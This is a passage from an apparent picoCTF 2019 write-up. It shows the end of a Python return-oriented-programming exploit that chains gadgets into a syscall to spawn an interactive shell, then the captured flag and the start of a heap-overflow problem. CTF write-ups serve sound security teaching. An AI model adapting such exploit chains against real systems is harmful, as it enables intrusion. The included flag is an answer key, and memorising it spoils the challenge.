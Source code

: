 ```python
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004749c0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000449135) # syscall ; ret

sh.sendlineafter('?\n', p)

sh.interactive()
```

flag: `picoCTF{rOp_t0_b1n_sH_w1tH_n3w_g4dg3t5_cfc72366}`

# Heap overflow

## Problem

Just pwn this using a heap overflow taking advantage of douglas malloc free program and get a flag. Its also found in /problems/heap-overflow_5_39d709fdc06b81d3c23b73bb9cca6bdb on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/Heap overflow/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/Heap overflow/vuln.c)

## Solution
